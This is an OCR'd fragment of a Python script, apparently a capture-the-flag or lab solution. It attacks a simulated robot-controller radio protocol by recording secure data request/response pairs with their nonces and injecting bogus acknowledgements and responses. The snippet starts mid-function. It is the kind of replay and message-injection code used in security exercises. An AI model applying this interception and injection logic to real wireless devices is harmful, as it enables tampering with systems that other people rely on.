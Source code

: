 ```python
    
    global part
    global nonce
    
    global secure_requests 
    global secure_responses 
    
    await asyncio.sleep(0.02)

    if msg["dst"] == ME:
        if msg["msg_type"] == "secure_data":
            print("Received SDATA / Injecting bogus SDACK")
            await asyncio.sleep(1)

            await bogus_ack()

            return
        elif msg["msg_type"] == "secure_data_request":
            print("Received SDREQ")
            secure_requests.append((msg, nonce, None))
            
            if len(secure_responses) == secure_responses_l:
                print("Reached enough responses!")
                print("Injecting bogus SDRES")
                await bogus_response()
                
                part = 1
                
                return

            msg["dst"] = CONTROLLER
            inject_radio_message(msg)
            return
        else:
            msg["dst"] = CONTROLLER
            inject_radio_message(msg)
            return

    elif msg["dst"] == ROBOT:
        if msg["msg_type"] == "secure_data_response":
            print("Received SDRES")
            secure_responses.append((msg, nonce, None))
            nonce += 1

time.sleep(1)
start_robot()

while True:
    messages = receive_radio_messages()
    for msg in messages:
        asyncio.run(record_request_response(msg))
        
        if part == 1:
            break 
    
    if part == 1:
        break 

stop_robot()

### PART 1 -> RECORD EMPTY SECURE_DATA_REQUEST AND SECURE_DATA_RESPONSE PAIRS
nonce = 0
receive_radio_messages()
```